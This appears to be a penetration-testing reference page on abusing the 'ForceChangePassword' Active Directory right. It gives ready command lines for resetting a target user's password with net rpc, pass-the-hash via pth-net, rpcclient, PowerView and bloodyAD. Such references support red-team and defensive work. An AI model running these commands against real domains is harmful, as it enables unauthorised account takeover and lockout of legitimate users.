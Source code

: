 # ForceChangePassword

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.

{% tabs %}
{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](broken-reference).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc password $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```
{% endtab %}

{% tab title="Windows" %}
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```

Mimikatz's [`lsadump::setntlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/setntlm) can also be used for that purpose.
{% endtab %}

{% tab title="Windows/UNIX-like" %}
It can also be achieved with a python tool as [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
bloodyAD --host $DomainController -d $DOMAIN -u $ControlledUser -p $Password set password $TargetUser $NewPassword
```
{% endtab %}

{% endtabs %}
